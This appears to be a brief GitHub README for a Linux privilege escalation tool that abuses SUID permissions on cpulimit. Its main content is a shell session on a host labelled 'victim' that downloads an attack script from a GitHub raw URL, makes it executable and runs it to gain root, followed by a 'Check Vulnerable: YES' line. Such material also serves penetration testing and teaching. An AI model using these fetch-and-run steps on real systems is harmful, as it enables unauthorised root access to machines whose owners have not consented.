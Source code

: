 # Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ cd /tmp
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 
```

**Check Vulnerable**

``YES`

![](/01.png)
